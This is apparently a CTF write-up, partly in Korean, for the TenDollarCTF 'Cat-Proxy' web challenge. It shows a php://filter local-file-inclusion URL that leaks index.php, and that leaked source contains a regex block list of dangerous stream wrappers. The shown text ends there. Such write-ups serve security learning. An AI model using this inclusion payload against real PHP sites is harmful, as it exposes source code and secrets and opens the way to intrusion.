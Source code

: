 # TenDollarCTF 3rd - Cat-Proxy

## Information

Category : Web

Solver : 1

Tag : LFI, Unserialize, SSRF, MySQL

## Description

Author: @shpik

<https://www.youtube.com/watch?v=wZZ7oFKsKzY>

[\*] Notice 1: bug fixed - upload error and server setting

[\*] ~~Notice 2: SORRY, This problem is under constructor. wait a minutes.~~ - **Fix**

[\*] Notice 3: Unintended solution patch. check please.

Server Info: <http://web2.tendollar.kr:8100/>

## Exploit

It have 3 menu in problem page

- Home
- Login
- Join

First, sign in at join page, then you show additional 2 menu.

- Nyaa
- Profile

nyaa페이지에서 URL입력하면 입력한 페이지를 nyaaa라는 페이지에서 화면에 출력해줍니다.

Input url in nyaa page and the page you inputed will be displayed on the screen in nyaaa page.

Profile 페이지에서는 이미지를 업로드하면 업로드된 이미지로 Avatar가 변하는 것 같습니다.



.php파일을 업로드 해보았지만 확장자가 jpg, jpeg, gif, png인 파일이 아니면 업로드가 안되는 모양입니다.

이 문제는 p파라미터를 통해 페이지를 처리합니다.

p 파라미터에 php wrapper를 써서 소스코드를 릭할 수 있습니다.

`http://web2.tendollar.kr:8100/?p=php://filter/convert.base64-encode/resource=index`

```html
<!-- index.php -->
<?php
    error_reporting(0);
    include('config.php');
    include('lib.php');
    include('header.php');
    $page = $_GET['p'];
    if(is_null($page) || is_array($page)|| $page==''){
        $page = 'home';
    }else{
        if(preg_match('/phar|zip|gopher|file:|\.\.|dict|iter|glob|ftp/i',$page)){
            $page = 'home';
        }
    }
    include($page.'.php');
    include('footer.php');
?>
```